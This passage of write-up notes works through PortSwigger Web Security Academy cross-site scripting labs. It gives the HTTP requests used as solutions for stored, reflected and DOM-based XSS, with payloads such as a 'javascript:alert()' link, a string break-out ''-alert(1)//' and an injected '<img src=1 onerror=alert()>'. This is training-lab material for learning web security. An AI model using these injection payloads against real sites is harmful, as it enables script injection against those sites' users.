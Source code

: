 There was some leftover quotes from the `value` attribute that needed to be matched in order for the `onfocus` attribute to not fail.

![image-20240304232332300](./assets/image-20240304232332300.png)

#### [Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) into anchor `href` attribute with double quotes HTML-encoded

```http
POST /post/comment HTTP/2
Host: web-security-academy.net

csrf=M20B5PFxtj616yG2NUeu26yMhrYYFKMN&postId=2&comment=comment&name=name&email=email@email.com&website=javascript:alert()
```

![image-20240304224852418](./assets/image-20240304224852418.png)

#### [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) into a JavaScript string with angle brackets HTML encoded

```http
GET /?search=%27-alert%281%29%2F%2F HTTP/2
Host: web-security-academy.net
```

![image-20240313195714552](./assets/image-20240313195714552.png)

### Practitioner

#### [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) in `document.write` sink using source `location.search` inside a select element

```html
GET /product?productId=2&storeId=Pariss<select><img src=1 onerror=alert()> HTTP/2
Host: web-security-academy.net
```
